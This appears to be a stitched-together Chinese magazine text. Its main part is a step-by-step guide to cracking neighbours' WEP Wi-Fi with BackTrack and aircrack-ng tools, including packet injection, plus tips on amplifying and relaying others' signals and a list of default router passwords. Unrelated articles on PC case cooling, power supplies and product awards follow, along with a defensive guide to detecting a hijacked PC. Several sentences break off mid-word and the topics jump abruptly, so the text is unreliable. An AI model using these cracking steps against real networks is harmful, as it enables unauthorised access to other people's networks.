- 第4步：连续再次单击两次“下一步”完成无线网络的配置工作。最后，选中“配置式”列表中的网络，并单击“连接”按钮，就可以搭上隐身人的网络自由冲浪了。

#### STORY 3
#### 攻城拔寨，劫持WEP加密的无线网络

经过N多波折，我终于把自己贱卖给了一家IT公司，从此开始了起得比鸡早，干得比牛多，吃得比猪差的“IT民工”生活。在北京举目无亲，蹭网成了我下班后最愉快的事。每天下班第一时间便是开机上网，只有在游戏的世界中，我才是战无不胜的王者，而不再是那个可怜的IT民工。一天回到宿舍，开机、搜索可用的无线热点，咦，怎么全都加密了？！要想直接挤进去上网是不可能的了，难道就此罢手，心中当然不甘！兵来将挡，水来土掩，你用加密语，我有破解经。

### 攻城 利刃在手

#### ①BT

要破解WEP加密的无线网络，需要有一款得心应手的利刃，只有这样才能披荆斩棘，勇往直前，最终捕获WEP密码。这款工具就是BackTrack（简称BT），现在有BT3和BT4 Beta两个版本，并且分光盘版、U盘版和虚拟机版，我们可以在其官方网站根据自己的实际需要来下载，下载地址：http://www.remote-exploit.org/backtrack/download.html。

#### ②卡王、卡皇、卡神

在这里应该指出的是并不是所有的无线网卡都支持BT，自己的网卡在不在BT的支持范围内，我们可以在http://download.csdn.net/source/1263761列表中查询。如果我们走“背”字，无线网卡不被BT所支持，那么要想破解WEP加密只有重新更换能够被BT支持的无线网卡了。通过淘宝网，我们以“蹭网”为关键字搜索，足不出户就可以淘得一款能够被BT完美支持的无线网卡。

> 小知识：
> 卡王、卡神、卡皇之争。无论是在硬件网站上还是在淘宝上，我们能够找到许多可以被BT完美支持的无线网卡，但是其前面冠以的卡王、卡神、卡皇弄得用户是一头雾水，那么到底什么是卡王、卡神、卡皇呢？到底哪款更为厉害呢？所谓的卡王、卡神、卡皇都是USB接口的无线网卡，因无视民用无线功率标准，将本不该在网卡上出现的功率放大模块加了进去，因其强大信号与高效率破解WEP密码，被无数无线蹭网者所称赞，网卡销售商趁机炒作，称其为“王”、“皇”、“神”。卡王出现的最早，卡皇是卡王的升级版，功能更为强大。卡神采用的是Atheros AR5534芯片，可以完美支持BT3、BT4，支持注入攻击，破解速度更快。

### 攻城 临城下

刚才介绍了BT分光盘版、U盘版和虚拟机版，下面分别介绍一下这三个版本的用法。

#### ①光盘版

首先从官方网站下载光盘版的BT3或BT4（我们以BT3为例，同下），下载得到的是一个ISO镜像，因此，我们只需用相应的刻录工具将ISO刻录到光盘上即可。要刻录光盘镜像，可选的刻录工具很多，最为方便的莫过于ISOCRecorder3.0（下载地址：http://www.piaodown.com/soft/8724.htm）。下载安装ISOCRecorder，安装之后找到下载回来的BT3光盘镜像文件，在其上单击鼠标右键，选择“Copy Image To CD”命令，在弹出来的窗口中指定刻录光盘所在的位置即可。

#### ②U盘版

对于下载回来的USB版的BT3压缩包，将解压后复制到U盘的根目录，这样，根目录下有BT3和Boot两个文件夹。
在“运行”对话框中键入“CMD”回车后打开一个命令行窗口，通过CD命令进入U盘根目录下，例如U盘是H盘，那么则运行如下命令：

H:回车
cd boot
bootinst.bat

回车后按提示即可为U盘添加引导记录了，制作完毕重启时插入U盘启动即可使用BT3了。
运行bootinst.bat时把提示：要加-f参数提示的处置。bootinst.bat之所以报错，则是因为系统把U盘识别成了“本地磁盘”而非“可移动磁盘”。遇到这种情况，则进入到U盘的boot文件夹，用记事本打开bootinst.bat，把“:setupNT”小节下面的“\boot\syslinux\syslinux.exe -ma -d \boot\syslinux\DISK:\改为“\boot\syslinux\syslinux.exe -fma -d \boot\syslinux\DISK:\即可。”

#### ③虚拟机版

首先从官网下载虚拟机版的BT3，下载完毕解压到任意一个目录，然后打开VMWare Workstation虚拟机，单击菜单“文件”→“打开”命令，然后打开刚才解压得到的BT3目录中的“Other Linux 2.6.X KERNEL.vmx”文件。
尽管VMWare Workstation虚拟机能够使用USB设备，但是默认情况下，USB设备只能在物理主机中使用。因此，要想在VMWare Workstation虚拟机中使用USB网卡，需要将无线网卡驱动加载到虚拟机中。单击菜单栏的“虚拟机”→“可移动设备”→“USB设备”，然后从其列表中选择自己的无线网卡即可。
接下来，在VMWare虚拟机中，单击“启动该虚拟机”命令，即可启动BT3。

### 攻城 胜券在握

准备好了BT3工具，下面正式开始了无线网络的破解之旅。

- 第1步：通过自己制作的BT3光盘或U盘启动电脑，在启动过程中，则需要提供启动密钥，用户名为“root”，密码为“toor”。当启动进入到“bt ~ #”提示符后则表明启动成功。接下来，键入“startx”命令进入到BT3的图形界面，图形界面下方会出现一些按钮，就如同Windows的任务栏，单击图标可以使用其中的众多的小工具。
- 第2步：查看无线网卡是否被BT3支持。单击BT3图形界面左下角的第二个图标Konsole，打开一个命令行窗口。接着，输入“ifconfig -a”，回车后查看自己的无线网卡是否被支持。

> 小提示：
> 在使用“ifconfig -a”查看时，往往会列出数个网卡，其中到底有没有自己的无线网卡呢？最好的方法是利用MAC地址来定位。查看MAC地址的方法是在Windows命令行窗口中输入“ipconfig /all”，其中提示无线连接“Physical Address”的就是网卡的MAC地址。

> 小提示：
> 使用笔记本自带的Intel PRO/Wireless 2200BG无线网卡的朋友，这时往往会发现自己的无线网卡不在支持之列，这也是困扰许多朋友的地方。这种情况，需要我们提前加载Intel 2200网卡的支持。在命令行窗口中输入如下命令：
> rmmod ipw2200
- 第3步：启用无线网卡。输入如下命令：
> ifconfig eth1 up
> ifconfig rtap0 up
- 第4步：激活网卡的监听模式。输入以下命令：
> airmon-ng start eth1
- 第5步：输入抓包命令，抓包并查看我们要破解的ap的mac和与之相连的客户端mac。输入命令：
> airodump-ng -ivs -w name -c 6 eth1
> --w后面跟的name是名字的意思，这个名字是随便取的，想偷懒的话可以直接用。-c后面跟的6是AP的工作频道，假如我们要破解的ap工作频道是2，那么就换成2，eth1是我们破解用的网卡接口名。
> 通过该命令，我们可以看到要破解的AP的essid，mac地址和与之相连接的客户端MAC。
- 第6步：打IPW2200注入补丁。上面窗口不关闭，另开一个窗口，输入命令：
> modprobe ipw2200 rtap_iface=1
> iwconfig eth1 key <AP MAC>
> 其中，ap后面跟我们要破解的AP的MAC，需要注意的是MAC地址之间必须输入中间的“:”。
> 接下来，再输入命令：
> iwconfig eth1 key sfakekey
> iwconfig eth1 mode managed
> 回车后我们即已成功地为2200打上了注入补丁，后面就可以用常规方式进行注入、破解了。
> 使用非IPW2200网卡的朋友，可以略过此步。
- 第7步：进行注入。输入如下命令：
> aireplay-ng -3 -b ap的mac -h 客户端网卡的mac eth1
> 进行注入，输入此命令后，要有一点耐心，通常快的1分钟，慢的5分钟，即可成功注入。
- 第8步：进行破解。到数据增加到1万以上时，另开窗口，输入命令进行破解：
> aircrack-ng -n 64 name-01.ivs
> 其中，name是前面我们指定的抓包保存下来的抓包文件，例如前面我们用1，得到的ivs文件就是1-01.ivs、1-02.ivs……用2，则为2-01.ivs、2-02.ivs……依此类推。不确定的朋友，可以输入ls命令，查看一下，内存里有几个这样的文件，一般以序号靠后的为准。最懒最安全的办法是，直接用*.ivs，所有的ivs文件一网打尽。64代表64位密码，如果是128位，换成128。
> 回车后，破解程序会首先询问要破解哪个无线网络，输入IVs值最大的那行序号即可。选择之后，按回车键，即可开始破解，很快我们需要的密码就显现出来了。

> 小提示：
> 大多数笔记本电脑内置了Intel 2200BG无线网卡，此卡性能稳定，功率大，信号好，性能稳定，但是对于BT3破解支持不好，如果你在实际的破解过程中无法取得成功，那么请换用卡皇等此前我们推荐的破解专用卡。

#### STORY 4
#### 由弱到强，放大无线网络的WIFI信号

光阴似箭，日月如梭，在不知不觉间来北京也小半年了，虽然我并没有混出个人模狗样，但雄心仍在，“壮志”未灭。北京的初冬开始飘落雪花，紧闭的双层塑钢窗成了我蹭网的拦路虎，WIFI信号时有时无，上网成了一种折磨。玩到兴浓处，聊到开心时，网突然就断了，心中那个懊恼呀！于是下决心解决信号不强的问题。

### 网购
#### 挑选自己的WIFI信号放大设备

要放大无线信号，最为简单的方法莫过于购置增益天线了。但是目前市场上的增益天线种类繁多，形态各异，往往会令人雾里看花，难以取舍。在这里简单教大家如何挑选适合自己使用的Wi-Fi增益天线。

#### ①关注两个重要参数

在选购天线时有两个参数非常关键：增益和方向性。增益表示天线功率放大倍数，数值越大表示信号的放大倍数就越大，也就是说当增益数值越大，信## ②区分定向和全向

根据天线水平方向性的不同，可以分为全向天线和定向天线。定向天线的优点是增益很高，信号传输距离远，缺点是天线的安装和调整难度大，两边的天线必须对准才能保证信号的传输，定向天线适合于距离要求比较高的环境。正宗大炮 Cisco AIR-ANT1949 思科八木增益天线就是一款定向天线，配合卡王、卡皇等无线网卡，效果非常强劲，但价格不菲，近300元。全向天线的优点是覆盖面广、承载功率大，安装使用非常方便，且价格低廉，不需要考虑两端天线安装角度的问题，适合于距离要求不太高的环境。例如台湾 unilink UL-896 就是一款全向天线，9dBi高增益天线确保了无线信号的接收强度和质量，能够自由倾斜和旋转功能从而保证了无需移动即可全方位接收。

## DIY 自己动手制作WIFI信号放大器

网购增益天线简单方便，但是要支出一定的银子。如果我们囊中羞涩并且有一定的DIY基础，那么不妨自己动手DIY一个WIFI信号放大器，从而节约成本。

1. 第1步：准备工具。所需工具有剪刀、美工刀、双面胶、固体胶。材料有：硬纸板（薄一点的）、锡纸（铝箔）或者易拉罐。
2. 第2步：下载CFan为大家准备好的放大器图纸，并把它打印在A4纸上。
3. 第3步：如果选择锡纸作为反射面，那么首先要再找张硬纸片，裁成A4图纸里面矩形大小的形状，用双面胶把锡纸蒙在上面。如果选择用易拉罐做反射面，那么首先要把整体裁剪下来，然后按照纸上的大小裁剪。我们可以先把剪好的纸用双面胶蒙在易拉罐广告的一面，增加美观度。
4. 第4步：图纸上面的部分是用来连接天线跟反射面的，需要找点硬纸板，然后把图纸用固体胶粘在上面，沿着线裁剪出来，折好后塞到反射面里面即告大功告成。

制作的时候一定要保证反射面的角度与图纸上的一致，因为图纸上的大小比例都是计算过的，可以使信号的增益达到最佳效果。

## 资源推荐

在网上有许多的WIFI信号放大器制作站点，我们只需按照其提示的操作步骤一步步操作就可以DIY出自己的WIFI信号放大器了。

- http://www.binarywolf.com/249/
- http://www.qsl.net/ve3rgw/corner.html
- http://www.turnpoint.net/wireless/cantenahowto.html
- http://trevormarshall.com/biquad.htm
- http://www.xavier.com/Antenne/Bi-quad/index.html
- http://www.usbwifi.orcon.net.nz/
- http://en.wikipedia.org/wiki/Parabolic_trough

## 中继 用无线路由彻底解决信号的问题

除了用增强天线增强信号强度的方法之外，我们还可以架设一台无线路由器，把这个无线路由器当作信号放大和中继设备，从而实现信号增强的功能。这样的做的好处是一方面让自己家中的无线设备可以接收到比单机连接信号更好的无线网络，另一方面通过无线路由器的这种中继接入服务可以实现家中没有无线网卡设备（如台式机）的‘蹭网’需求。这样，普通台式机无需无线网卡直接通过网线连接到这台中继无线路由器上即可实现‘蹭网’接入功能。

并不是所有的无线路由器都可以作为中继器来使用，中继需要强大固件程序的配合，只有使用了DD-WRT固件程序或可以刷成DD-WRT固件程序的无线路由才能够作为中继器，例如贝尔金无线路由器。下面就以该款无线路由为例来看看如何设置中继，进行无线信号的转发。

1. 第1步：首先进入到‘Internet协议（TCP/IP）属性’窗口，将网卡的IP地址设置为‘自动获得IP地址’，然后准备一根网线，一端连接到电脑的网卡上，另一端接在路由的1-4LAN任意一口，并打开路由器的电源。
2. 第2步：在IE浏览器中输入路由器的管理地址‘192.168.2.1’，回车后以用户名‘root’、密码‘admin’登录。进入到管理界面后，为使用方便，首先应将其界面改为中文，单击‘Administration’标签，然后在‘Language Selection’下拉列表中选择‘Chinese simplified’，单击保存按钮并重启路由器就可以使用中文界面了。
3. 第3步：再次进入到管理界面，单击‘状态’→‘无线’，在此页面最底部单击‘选址’按钮，会出现一个窗口显示已经搜索到的无线信号列表，在这里选择一个此前经过自己验证的可以使用的无线信号，单击‘加入’按钮，当弹出‘已经以客户端身份成功地加入了下列网络：XXX（无线信号的名称）’表明加入成功。
4. 第4步：单击‘继续’按钮，系统会自动跳转到无线管理选项，在这里将‘无线模式’设置为‘Repeater’（可中继），在‘无线网络模式’栏中，如果我们需要使用的网络信号源是IEEE802.11B就选择‘仅B’，如果网络信号源是IEEE802.11g就选择‘仅G’。‘无线网络名SSID’和‘无线频道’一般会自动添加，这里的SSID号必须和我们搜索到的信号SSID号完全一致，不符时一定要更改正确。接下来再启用‘无线SSID广播’，最后，单击‘添加’按钮，在出现的页面中来建立一个虚拟的SSID，‘无线网络名（SSID）’可以自己命名，但不要忘记，下面还要用到，同时，要启用‘无线SSID广播’。好了，现在我们等于添加了一个虚拟的对内无线网接口，从而使自己的多台电脑能够同时接入对方的无线网络。
5. 第5步：选择‘安全’→‘防火墙’，在接下来的页面中把‘SPI防火墙’选项设为‘禁用’。
6. 第6步：单击‘设置’→‘基本设置’，然后将‘连接类型’设置为‘自动配置’，启用‘STP’，在网络设置栏中，为防止路由器和对方的AP冲突，可以更改一下路由器的IP地址，最后单击一下保存按钮即可。
7. 第7步：利用路由作中继蹭网，如果我们使用的是无线网卡，那么现在直接连接刚才建立的虚拟SSID就可以了。如果我们使用的是台式机，那么则需要用网线将无线路由和台式机连接起来就可以了。
8. 第8步：如果放大的功率还是不够，那么还可以手动进行调节，单击‘无线’→‘高级设置’，在下面的页面中更改‘Xmit功率’就可以实现功率的进一步放大了。

### 常用的无线路由的IP及密码

| 品牌 | 默认IP地址 | 用户名 | 密码 |
| :--- | :--- | :--- | :--- |
| ddwrt | 192.168.1.1 | root | admin |
| linksys | 192.168.1.1 | admin | admin |
| tplink | 192.168.1.1 | admin | admin |
| 贝尔金 | 192.168.2.1 | (空) | (空) |
| D-LINK | 192.168.0.1 | admin | (空) |


箱的散热要求就非常高了。

## 常见误区：

- ★利用电风扇辅助散热
首先我们打开机箱，利用电风扇辅助散热。机箱内环境温度由于机箱侧盖的打开有所下降，但是电脑核心配件的温度却没有得到改善，有些甚至还有所上升。例如CPU散热，由于CPU本身并没有得到电风扇的散热支持，最主要的散热设备依然是散热风扇，而依靠CPU散热风扇进行散热的主机供电电路，却被电风扇吹乱了原本的风流，使之得不到有效的散热。
此外，显卡由于其位置特殊，更是得不到电风扇风流的支持。电源、硬盘等其他配件的散热本来都是依靠箱内风流循环的，这下被电风扇扰乱了风流，无法满足循环条件，散热效果也就不太好了。如果你的硬盘位置较为偏僻，得不到电扇风力的直接支持，温度还会上升。

- ★利用空调降低室温
那么空调效果如何呢？测试中使用羿龙X3 8750，不开空调，室温为35度的时候，CPU外部温度为83度，当我们打开空调，室内温度为25度是，机箱内温度明显下降，CPU的外部温度也降低到了49度。但是主板显示的CPU的内核温度却一点也没有变化。

- ★加装大量风扇
理论上说，机箱风扇安装得越多，散热的效果越好，但是实际上，散热的好坏并不是单纯通过风扇的数量来决定的，风扇的增多只会带来更大的噪音以及灰尘。

### 防治方法：

相信大家都有过这样的体会：在夏天，坐在两头通风的巷子内会感觉特别凉快，这是因为巷子本身就构成了一个风道，冷却风流一边进，一边出，形成自然的空气流动带走身体的热量。
和外界空气对流的原理类似，当冷空气通过机箱内部时，它会带走机箱中发热元件上的热量，空气受热后密度降低，并上升到机箱顶部汇聚，再经过抽气风扇而排出机箱外，此时它的温度已经比环境空气温度有所升高，整个过程就形成了我们常说的冷却风道。



▲合理加装风扇才能更好地利用机箱内部风道，大量风扇的引入很容易使机箱内气流紊乱，和电风扇侧吹的道理是相同的。

可以看出，这两种方法虽然能够将机箱内温度降低，但是对核心配件的温度却没有本质影响，反而由于打开了机箱盖，增加了室内噪音和大量的电磁辐射。



▲38℃机箱很好地解决了风道问题，让CPU以及CPU周围的发热大户直接得到了箱子外的冷空气。

## 症状二：咳嗽不止

特征：嗡嗡响声不断，并伴有不定时晕厥（死机），周期性并发症

病因：可以确定的是机箱内部配件或风扇由于周期性旋转产生，多以硬盘、电源风扇、显卡风扇、CPU风扇为罪魁祸首。究其原因无非为两种。

一种是固定方式的原因，由于坚硬表面相接触没有胶垫类物质作为缓冲带，固定过紧或过松都会造成此类现象。

另一种是机箱结构的原因，厚度过薄的金属侧板、整体松散的机箱结构都是造成震动的罪魁祸首。

并发症：首先机箱震动的大受害者便是硬盘，其在工作时磁头悬浮高度的过低导致了震动会对硬盘造成致命损伤。其次机箱震动很容易使内存和显卡松动，接触不良甚至无意中的“热插拔”。

## 五大治标不治本：

- ★在箱盖内与箱体直接接触的部位贴上3-4毫米厚的塑料泡沫条，再拧紧箱盖。
- ★降低风扇转速，开启硬盘AAM模式。
- ★用胶钉固定风扇及硬盘。
- ★使用重物压住机箱。
- ★在机箱下安置泡沫或胶垫。

## 防治方法：

首先，在用料上，不应过于为外观好看或满足猎奇心理，而去采用塑料、彩塑、有机玻璃这样的材质作为机箱外壳使用。金属材料必须是其主要的用料，如常见的：电镀锌(SECC，耐指纹，具有较优的耐蚀性，而且保持了冷轧板的加工性，是电脑机箱的常见用品)；

热镀锌(SGCC)、镀铝锌(SGLD,比SGCC的有更优异的性能，如耐蚀性、耐热性、热传导及热反射性、成型性、焊接性都比前者更好)都是服务器机箱常见的用料。除此之外，铝合金也是服务器机箱常见的用料之一，铝合金密度低，但强度比较高，接近或超过优质钢，塑性好，可加工成各种型材，具有优良的导电性、导热性和抗蚀性，也在服务器机箱上使用广泛，使用量仅次于钢。

其次，就要看机箱的整体结构，晃动不偏斜、按压不变形是最基本的要求。观察金属焊接处的品质、机箱内部边缘处理、重物(可用消费者本身的体重)放置来测试机箱的结构牢固度。

## 症状三：头痛

特征：随思考问题（系统负荷）的难易程度，间歇性晕厥（死机）或呼吸不畅。

病因：如果说CPU是电脑一颗强劲的心，那么电源就是它的能量中心了。电源在PC电脑中并不为用户所重视，但正是这个经常被忽视的产品，却为CPU、内存、光驱等所有电脑设备提供稳定、连续的电流。如果电源出了问题，也就无法给其他配件提供能量，就会影响电脑的正常工作，甚至损坏硬件。电脑故障中，很大一部分就是由于电源引起的。

## 并发症：

- ★硬盘出现坏磁道。
- ★光驱读刻盘性能不好。
- ★超频不稳定。
- ★主机经常莫名其妙地重新启动。
- ★电脑运行伴有“轰轰”的噪声。
- ★显示器上有水波纹。

## 防治方法：

- ★看电源的重量
一般来说，品质好的电源产品，用料扎实，所以一般质量比较重的产品的做工和品质都比较出色。当然，从重量来确定电源产品的质量，只是一个参考，也不能一概而论。有些电源厂商抓住用户选电源看重量的心理，增加电源的重量，在选购时要注意。

- ★看电源的外壳
检查电源外壳是最直观的辨别方法之一。考虑到外壳影响到电磁波的屏蔽和电源的散热性，目前ATX电源外壳多采用镀锌钢板材料，也有部分产品采用了全铝制品以提高散热性。现在市场中还有一些所谓“黄金版”产品，外壳镀金或镀镍，不仅美观还能起到防锈的作用。但一些劣质电源，自然不会使用高档材料，通常会采用厚度较薄的外壳或者干脆采用镀锌的铁皮，这种电源外壳强度较差，稍用力就会出现较大的变形，更谈不上防辐射和散热性。

- ★看电源铭牌
前面我们已经说过，在电源的铭牌上标有电源各路输出的参数，通过这些参数，我们可以快速估算出该款电源的实际功率，以及观察该款电源是否通过一些重要的认证。此外，质量上乘的电源，铭牌印制清晰规范，并且标注了各项输出电压的联合输出功率和各种认证标志，而质量较差的电源，往往铭牌印刷质量粗糙，并且没有标注各项输出电压的联合输出功率。

- ★看电源输出线的质量
一款质量上乘的电源产品，其电源输出线一般都采用较粗的线材，能够承受更大的电流，并且电源输出线通常比较长，而质量低劣的电源产品，在电源输出线的质量方面往往偷工减料，使用比较细比较短的线材。

> 小知识 感冒时能玩电脑吗？
最好不要这样做。因为感冒时，大脑会处于缺氧状态，这也是感冒时有时会头疼的原因，玩电脑又会使大脑处于高度集中的状态，需要大量的氧供应，这会使大脑的缺氧状态进一步恶化，所以，静养是对感冒最好的。

## 感冒克星排行榜

医生：说了这么多，大家也该明白了，所谓流感不过是因为平日不为我们所重视的部分——机箱、电源产生的一系列故障罢了。预防起来说简单也简单，选购优秀的产品是不可或缺的。

## 最佳散热奖

### 航嘉祥云H401机箱

获奖理由：这款航嘉祥云H401采用高工艺冲压铝制板材工艺制作，各种设备安装仓位数量充足。板材处理细致，和其他廉价机箱相比在DIY刮伤手指保护上可谓是大厂设计风范。散热风道上与辅助引导风扇符合英特尔38度行业机箱设计标准。

### 技展钢铁侠机箱

获奖理由：机箱为了给各个硬件散热费尽心思，例如在主板的位置也设计了散热小孔，而在硬盘、光驱的相关位置同样也开了散热孔，并且都严格按照了电磁辐射波的波长进行特别加工，在一定程度上，这样的加工设计可将大部分的具有特定波长的电磁波折射或反射在机箱内部。在前置面板的设计上，也抛弃了塑料制造，采用彩钢材质，在增强散热的同时更加能够阻止电磁辐射的穿透。

## 最佳结构奖

### 航嘉黑晶H900机箱

得奖理由：黑晶H900有着非常豪华的工业设计和做工，黑色全铝材质，整体采用了金属拉丝工艺，质感十足。机箱内部结构宽敞，合理，提供有6个3.5英寸硬盘位和1个5.25英寸光驱位，充分考虑了HTPC用户硬盘数量多的需求，在安装上也采用硬盘笼的方式，利于用户日常拆卸。

## 最稳定能源奖

### 航嘉多核 DH6

得奖理由：航嘉多核DH6HK500额定功率高达400W，符合Intel ATX2.2版规范，双路+12V输出，+12V2峰值电流达到16.5A，满足多核心处理器在开机瞬间峰值电流的要求，适应数字家庭多任务处理。在接口方面也是很齐备的，支持20+4PIN、3大1小、方4PIN、2个方6PIN以及SATA接口，完全满足高端用户的需求。

## 坚决不做“肉鸡”——大虾电脑不被入侵的秘密

人物介绍

王小菜:国家公务员，初级电脑用户，网络安全意识比较薄弱。

李大虾:某IT公司网络安全工程师，对系统及网络安全有非常深刻的认识。

## 不被入侵的秘密之入门篇

王小菜和李大虾是哥们兼邻居。某晚，王小菜打开电脑上了一会网之后，发现鼠标忽然不听使唤，好像要找什么东西似的，指针到处翻文件夹。小菜不知为何。是故，以一顿宵夜的代价请来了李大虾帮其解决问题。

王小菜:大虾，你看我这电脑是咋回事呢? 为啥鼠标自己会到处乱点?

李大虾:不要说我鄙视你，你真是人如其名啊! 有人在远程控制你的电脑，电脑变成“肉鸡”了都不懂!

王小菜:啊，“肉鸡”是什么? 李大虾:看来啊，今天我得好好的给你上上课了。

## 一、何谓“肉鸡”电脑

所谓“肉鸡”电脑，简单地说就是被别人远程控制的电脑。当你的电脑被别人控制之后，就好像成了别人砧板上的肉，别人想怎么吃就怎么吃，肉鸡(机)一名由此而来。

一般来说，只要是中了木马，或者存在系统漏洞以及后门的，被攻击者利用并可以远程操控的电脑都属于“肉鸡”。

王小菜:我晕，谁这么无聊? 控制我的电脑有啥用? 电脑里面又没啥，他也搬不走，不还在我家里放着么。

李大虾:还好你电脑里面没啥艳照，要不你就陈冠希了! 对于攻击者来说，“肉鸡”的价值可大了。

## 二、“肉鸡”电脑有什么“商业价值”

1. 盗窃“肉鸡”电脑的虚拟财产，比如网络游戏ID装备、QQ币等。
2. 盗窃“肉鸡”电脑里的真实财产，比如网上银行，一旦你的网银账号被盗，就可能为别人的消费买单。
3. 盗窃他人的隐私数据。陈冠希的“艳照门”事件，相信大家都知道，如果身份证、隐秘照片、个人档案被人发布在网上，或者伪装成你的身份进行各种不法活动，后果很严重。
4. 偷到受害人电脑上的商业信息，比如财务报表、人事档案和客户档案等，攻击者可以利用这些资讯谋取非法利益。
5. 在“肉鸡”电脑上种植流氓软件，自动点击广告获利。攻击者在控制大量肉鸡之后，可以通过强行弹出广告，从广告主那里收获广告费，这也是流氓软件泛滥的原因之一。
6. 以“肉鸡”电脑为跳板(代理服务器)，对其他电脑发起攻击。黑客的任何攻击行为都可能留下痕迹，为了更好地隐藏自己，必然要经过多次代理的跳转，肉鸡电脑充当了中介和替罪羊。
7. 控制着大批“肉鸡”电脑的攻击者，他们会为了某个目的，对目标主机进行DDoS攻击从而获取利益，而“肉鸡”电脑是发起DDoS攻击的马前卒。

此外，在攻击者的圈子里，“肉鸡”电脑可以像白菜一样被买卖。在黑色产业链的高端，那些庞大的“肉鸡”电脑群的控者还可以构筑一个木马帝国，进行各种牟利活动。总之，“肉鸡”电脑是攻击者致富的源泉。

### 小知识:何谓DDoS

DDoS被称为分布式拒绝服务。如果你手里有许多完全归你控制的“肉鸡”电脑，它们的带宽加起来就是你的流量，你用这些流量去访问你想要吃掉的目标电脑，只要你的流量大于它，别人就无法访问这台电脑，就相当于你把它干掉，这就叫DDoS。

## 不被入侵的秘密之验“鸡”篇

王小菜:不听不知道，一听吓一跳! 哥们，你是如何断定我的电脑成“肉鸡”的?

李大虾:看在宵夜的份上，我就免费给你介绍如何检查自己的电脑是否成为他人的“肉鸡”的。

## 一、快速检查自己的电脑是不是“肉鸡”

相信谁也不希望自己的电脑赤裸裸地暴露在黑客面前。实际上，对于电脑水平一般的人而言，检查电脑是否是“肉鸡”并不是一件非常困难的事情，如果你发现电脑有如下的现象中的一个或几个，那么你的电脑十有八九已成了别人的“肉鸡”了。

### 实战:7个不正常系统现象要当心

现象1:有时会突然发现你的鼠标不听使唤，在你不动鼠标的时候，鼠标也会移动，并且还会点击有关按钮进行操作。这种鼠标的移动轨迹和性能与光电鼠标自动漂移明显不同。

现象2:电脑运行过程中或者开机的时候，弹出莫名其妙的对话框或者IE窗口，但很快就自动关闭了。

现象3:QQ、MSN的登录或信息异常。你在登录QQ时，系统提示上一次登录的IP和你完全不相干，比如你家明明在北京，但是QQ却提醒你上一次登录地点在广州。当你登录MSN时，可能有朋友给你发消息，问你刚发了什么，你却很清楚自己从未给这个朋友发过什么消息。

现象4:登录网络游戏后，发现装备丢失或者上次下线时的位置不符，甚至用正确的密码无法登录。很显然，你没有登录这个游戏的时候，别人替你登录过。

现象5:正常上网时，突然感觉很慢，硬盘灯在闪烁，就好象在不停地COPY文件一样。这种情况很可能是攻击者在尝试COPY你的文件，在大量COPY文件时，磁盘的读写明显会增加，系统也会变慢。此时，你应该毫不犹豫地拔掉网线，立即检查你的系统进程是否异常。

现象6:当你准备使用摄像头时，系统提示该设备正在使用中，这说明攻击者正在盗用你的摄像头。由于摄像头开始工作时系统是不会提示的，而且工作状态是不可见的，所以当你不用摄像头时，建议把镜头给盖上(笔记本电脑屏幕内置的)或者直接拔下来(USB外置的)，攻击者就无机可乘了。

现象7:在你没有使用任何网络资源时，你发现网卡灯在不停地闪烁。当你在“网络连接”中双击“本地连接”查看其状态时，你会发现窗口中的“小电脑”在不停地闪，而且“已发送”的数据量增加很快。

王小菜:原来如此。大虾你就是根据我鼠标的异常断定我是被抓“鸡”的吧?

李大虾:基本上是吧，不过也不尽然，有时候必须用一些辅助工具来帮忙。你自己的系统里面就有，只是你没有好好利用罢了。

## 二、找几个验“鸡”的好帮手

通过一些表面的现象判断是否被入侵，可能不是十分准确，但是实际上，不管攻击者以何种方式来控制“肉鸡”电脑，该电脑肯定是要与外界发生联系，通过某些端口给向外面发送数据，因此我们可以借助一些常用的软件来观察网络活动情况。

### 实战1:用防火墙揪出占用流量的黑手

通常，网络防火墙(比如天网、金山网镖、C.O.M.O.D.O等)都会有网络检测的功能，我们可以通过这些软件来查看网络流量和可疑的网络连接来确认“肉鸡”。笔者以“金山网镖”为例。

首先在安装有“金山网镖”系统上，双击系统托盘区中的软件图标，打开程序主窗口。然后在“安全状态”页面下，检查“当前网络活动状态”中的程序有没有陌生的程序，接着观察一下当前网络流量情况，如果“发送流量”增加很快，那么你就要小心了。最后切换到“网络状态”页面，仔细查看相关连接，如果发现自己根本没有使用的软件在连接到远程计算机，那么你的电脑很可能就是中标了。

### 小提示:

金山网镖通常包含在金山毒霸套装中，下载地址为http://www.duba.net/download/index.shtml。

### 实战2:谁开的后门? 用TCPView一看就明

通常情况下，远程入侵者会预先在“肉鸡”电脑上打开一些特定的端口，而这些端口则随时等待控制端连接或是主动连接到远程服务器。当然，只要把这些端口关闭，就可以拒绝入侵者的控制了，怎样才能查看PC当前打开的端口呢?

TCPView是一个查看端口和线程的小工具(下载地址为http://www.newhua.com/soft/16626.htm)，它可以详细地列出系统打开的端口。在TCPView界面的列表中，一个图标对应一个已经打开的端口，而且详细地显示本地和远程的连接情况。如果某个端口发生数据交换，TCPView会以醒目的颜色来提示。

有些打开端口的程序名称可能会与系统内的程序名称一样，但是不是系统的程序，双击你认为可疑的端口打开其属性，看一下占用了该端口的程序的“路径”是不是有问题。如果有问题，点击“结束进程”干掉它。

### 小知识:何谓端口?

所谓端口“PORT”，即电脑与外界通讯交流的出入口，如果把电脑在互联网上的IP地址比作门牌号，那么端口就相当于房门，家人通过这些门和外界沟通、联系。在网络中，根据TCP/IP协议规定，电脑可以有256×256(65536)个端口，每一个端口就好像一扇门，PC就是通过这些特定的“门”来和外界交流。

李大虾:这是有专门的软件来帮忙，如果手头上没有这些工具，还可以利用系统中自带的工具来帮忙。

王小菜:哦? 说来听听!

### 实战3:借助系统自带DOS命令查看开放的端口(Windows 2000/XP/Vista/7)

在Windows系统中自带了一个“netstat”命令，它可以显示当前的TCP/IP网络连接。在“运行”中输入“cmd”，在打开的命令窗口中输入“netstat -an”，回车后就会在窗口内显示了当前系统所打开的端口及连接情况。

在没有任何网络行为的情况下，所有端口的状态应该是“LISTENING”，如果你发现有大量的端口处于“ESTABLISHED”状态，那么你最好用杀毒软件或其他安全工具检查一下系统。

### 小提示:

★netstat命令只有在安装了TCP/IP协议后才可以使用；
★“状态”下对应的“LISTENING”表示端口是开放的，等待连接但还没有被连接的；而“ESTABLISHED”表示已建立连接的端口；“TIME_WAIT”表示该端口曾经被访问过，但访问结束了。

### 实战4:巧用“资源监视器”找出硬盘狂闪的罪魁祸首(Windows Vista/7)

相信所有的人在使用系统的过程中，都碰到过硬盘狂闪但又不知道谁在作怪的事情，是杀毒软件、QQ，还是攻击者在读写你的硬盘呢? 实际上，在Windows Vista和Windows 7系统中有一个“资源监视器”的工具，利用它就可以轻松找出硬盘狂闪的根源。

